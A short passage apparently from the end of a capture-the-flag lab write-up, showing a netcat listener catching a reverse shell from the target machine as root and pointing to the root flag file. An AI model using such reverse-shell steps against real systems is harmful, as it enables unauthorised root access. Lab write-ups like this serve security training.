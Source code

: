 Catch the shell.

```bash
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.220.161] 37556
1
2
# id
uid=0(root) gid=0(root) groups=0(root)
```

Retrieve the root flag from `/root/root.txt`.
